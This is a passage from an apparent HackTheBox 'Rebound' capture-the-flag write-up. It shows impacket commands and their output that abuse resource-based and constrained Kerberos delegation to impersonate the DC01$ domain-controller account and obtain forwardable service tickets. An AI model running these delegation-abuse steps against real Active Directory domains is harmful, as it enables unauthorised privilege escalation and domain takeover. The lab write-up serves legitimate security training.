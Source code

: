 ```bash

AccountName   AccountType                          DelegationType              DelegationRightsTo    
------------  -----------------------------------  --------------------------  ---------------------
ldap_monitor  Person                               Resource-Based Constrained  delegator$            
delegator$    ms-DS-Group-Managed-Service-Account  Constrained                 http/dc01.rebound.htb
```

#### Get TGS for `DC01$` on `delegator$`

Now, the `ldap_monitor` account is able to request a service ticket as any user on `delegator$`. I'm going to target the `DC01$` account, because the `Administrator` account is marked as sensitive, which gives the `NOT_DELEGATED`.

Let's get a ST (TGS ticket) as `DC01$` on `delegator$` `with impacket-getST`:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-getST 'rebound.htb/ldap_monitor:[REDACTED]' -spn `browser/dc01.rebound.htb` -impersonate `DC01$`
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

> **Note:** There is a clean up script resetting delegation settings, so if this doesn't work, We'll make sure to re-run the `impacket-rbcd` command again.

This saves a ticket as the `DC01$` account for `delegator$` into a file, and this time it is forwardable:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-describeTicket 'DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache' | grep 'Flags'
[*] Flags                         : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
```

This is what was missing earlier!

Now `delegator$` can use this ticket along with the `Constrained Delegation` to get a ST on `DC01` as `DC01`.

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-getST -spn http/dc01.rebound.htb -impersonate 'DC01$' 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -additional-ticket DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*]     Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
```
